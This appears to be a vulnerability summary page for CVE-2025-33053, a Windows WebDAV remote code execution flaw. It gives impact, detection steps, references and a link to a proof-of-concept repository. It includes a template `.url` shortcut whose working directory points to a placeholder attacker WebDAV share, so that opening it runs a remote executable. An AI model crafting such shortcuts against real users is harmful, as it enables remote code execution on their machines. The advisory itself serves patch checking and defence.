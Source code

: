 | Vulnerability | CVE-2025-33053 |
|---------------|----------------|
| **Type** | Remote Code Execution Vulnerability for WEBDAV service |
| **Description** | CVE-2025-33053 is a vulnerability within the WebDAV service that allows attackers to execute arbitrary code remotely through the manipulation of the working directory. |
| **The Impact of the Bug** | The primary impact of CVE-2025-33053 is Remote code execution once the user opens a manimulated `.url` file that can simply lunchs any legitimate executable but with the threat actor working directory which could be a remote WebDAV URL.|
| **Explotation PoC** | The following is an example of a `.url` file to exploit this vulnarability <pre lang="http">[InternetShortcut] <br>URL=<b><i>[Any legitimate exe file with sideload Ex: `C:\Program Files\Internet Explorer\iediagcmd.exe`]</i></b><br>WorkingDirectory=<b>[Attacker WEBDAV path]</b> <br>ShowCommand=7<br>IconIndex=<i>[Icon]</i><br>IconFile=<i>[Icon file]</i><br>Modified=<i>[Any timestamp]</i></pre><br>Once the user opens the shortcut file, it will automatically execute the file `\\[Attacker WEBDAV path]\route.exe` instead of the local legitimate `route.exe` under `\windows\system32\` |
| **How to detect if you are vulnerable to this attack vector?** | **1. Identify Windows Version:**<br> - Verify that you have the patched Windows version released on Jun 10, 2025 (affected versions include Windows 10/11 and Windows Server 2008,2012,2016,2022,2025).<br><br> **2. Check for Patch Installation:**<br> - Use the Microsoft Security Update Guide for CVE-2025-33053 to confirm if the system has the relevant security updates installed.<br><br> **3. Test for Vulnerability:**<br> - Use available Proof-of-Concept (PoC) tools from the following repositories:<br>   - https://github.com/havij13/CVE-2025-33053-WebDAV-0-Day-RCE<br><br>|
| **References** | - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-33053<br> - https://nvd.nist.gov/vuln/detail/CVE-2025-33053<br> - https://research.checkpoint.com/2025/stealth-falcon-zero-day/ |

